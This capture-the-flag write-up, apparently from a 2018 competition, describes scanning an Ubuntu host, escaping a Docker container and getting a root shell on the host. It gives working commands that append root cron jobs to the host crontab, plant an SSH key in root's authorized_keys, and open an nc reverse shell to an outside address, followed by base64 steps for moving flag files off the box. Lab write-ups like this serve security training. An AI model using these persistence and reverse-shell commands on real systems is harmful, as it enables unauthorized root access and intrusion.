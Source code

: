 # Ubuntu

## Port Scan

```
ec2-user@kali:~$ nmap 172.16.4.85 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-30 18:37 UTC
Nmap scan report for 172.16.4.85
Host is up (0.015s latency).
Not shown: 65525 closed ports
PORT      STATE SERVICE
25/tcp    open  smtp
79/tcp    open  finger
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8181/tcp  open  intermapper
8443/tcp  open  https-alt
8777/tcp  open  unknown
8880/tcp  open  cddbp-alt
9021/tcp  open  panagolin-ident
31063/tcp open  unknown
```

I also checked UDP for a small range, but connection was refused when trying to connect after the scan.

```
PORT    STATE         SERVICE
137/udp open          netbios-ns
138/udp open|filtered netbios-dgm
MAC Address: 0A:28:C5:43:46:2A (Unknown)
```

## Shell on Ubuntu host

One interesting discovery was being able to get a shell on the host system itself after escaping via the docker container on port 2222. Read the writeup for port 2222 (King of Diamonds) to see initial steps.

After mounting the host filesystem within the container, we would have read and write access to everything within the host. This mean that we could exploit this as we wish, and upgrade our container shell to a host shell!

There are various ways to do this but the way used in this case was to write some our own `cronjobs` and make them run as root. Because ssh shells are the nicest to use, we enable ssh on the host machine with the line:

`echo "* * * * * root systemctl start ssh.service" >> /host/etc/crontab`

where `/host` is the mount point used in the container escape. In my Kali instance I generated the key first with `ssh-keygen -t rsa -C "your_email@example.com"`. Then in `/host/root/.ssh/` we add our Kali ssh key to the `authorized_keys` file. An `echo` one liner can be used to do that `echo '<pub_key>' > authorized_keys`. Then we can simply ssh in with `ssh <user>@172.16.4.85` on port 22.

An alternative to the above if you wanted to get straight into a shell would be to just write a `nc` reverse shell and catch it with a listener e.g.

`echo "* * * * * root nc 1.2.3.4 555 -e /bin/sh" >> /host/etc/crontab`

We can now run docker commands, and can even execute commands to be run within the containers e.g. `docker exec -it <container id> bash>` to get a shell for that container.

`Linux ip-172-16-4-85 4.4.0-139-generic #165-Ubuntu SMP Wed Oct 24 10:58:50 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux`

![docker containers](../docker_containers.png)

## Finding flags on the host

Now we had a shortcut to find all flags on for this box! Although I had already found most at this point.

The files used in docker images lived in `/var/lib/locker/aufs/` and you could simply run a `find` to search for flags. The names of them varied, but you could do various filters like finding all files and checking if each file contains a PNG header. An simple example would be:

```
find ./ -exec grep PNG {} +
Binary file .//5ofspades.png matches
Binary file .//9ofhearts.png matches
Binary file .//8ofdiamonds.png matches
```

## Flag exfiltration

In some containers it was difficult to get the images out because of various reasons without having a meterpreter shell. One solution was to use `base64` to encode the whole image into a format that can be copied to a local box, and the process reversed.

Encode the image with `cat flag.png | base64`, copy the output, then reverse it with `cat encoded.png | base64 -D > flag.png`. There was one box which didn't have base64 at all which presented its own challenges, read 2 of Diamonds writeup for more.

